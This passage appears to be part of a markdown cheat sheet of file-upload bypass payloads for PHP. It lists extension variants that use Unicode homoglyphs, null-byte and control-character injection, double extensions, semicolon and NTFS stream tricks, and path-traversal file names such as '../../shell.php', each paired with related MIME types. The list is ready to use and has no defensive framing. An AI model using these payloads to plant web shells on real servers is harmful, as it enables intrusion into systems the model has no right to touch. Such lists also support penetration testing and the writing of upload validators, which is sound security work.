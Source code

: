 
## 2️⃣ Mixed Case / Unicode Homoglyphs (5)
.PHP  
.pHp  
.PHTML  
.pһp  # Cyrillic һ  
.phρ   # Greek rho  
**MIME-Type Related:** application/x-httpd-php, text/x-php, application/x-php

---

## 3️⃣ Null Byte & Control Character Injection (5)
.php%00  
.php%00.png  
.php%0a  
.php%09  
.php%20  
**MIME-Type Related:** application/x-httpd-php, image/png, image/jpeg, text/plain

---

## 4️⃣ Double Extensions (5)
.php.jpg  
.jpg.php  
.png.php  
.gif.php  
.php.jpg%00.png  
**MIME-Type Related:** application/x-httpd-php, image/jpeg, image/png, image/gif

---

## 5️⃣ Fragment, Comment & Semicolon Tricks (5)
.php#.jpg  
.php%23.jpg  
.php;jpg  
.php;.jpg  
.php::$DATA  
**MIME-Type Related:** application/x-httpd-php, image/jpeg, text/plain

---

## 6️⃣ Path Traversal + Upload (5)
../../shell.php  
..%2f..%2fshell.php  
..%5c..%5cshell.php  
%2e%2e%2f%2e%2e%2fshell.php  
shell.php/..  
**MIME-Type Related:** application/x-httpd-php, text/plain

---